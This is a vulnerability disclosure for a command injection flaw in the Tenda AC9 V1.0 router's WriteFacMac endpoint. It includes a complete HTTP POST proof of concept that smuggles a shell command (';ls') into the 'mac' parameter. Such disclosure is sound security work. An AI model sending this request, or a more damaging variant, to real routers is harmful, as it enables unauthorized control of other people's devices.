



# Tenda AC9 V1.0 Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC9 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.

## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC9 V1.0 Router
- **Firmware**: V15.03.05.19(6318)
- **Firmware Download**: [https://www.tenda.com.cn/download/detail-2681.html]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: Anonymous Researcher

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter via `sub_2B9D4` (a parameter parsing function) and passes it directly to `doSystemCmd`. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) without any input sanitization. The command is executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.

## Proof of Concept (PoC)

### PoC 1: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xxx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24
mac=00:01:02:11:22:33;ls
```

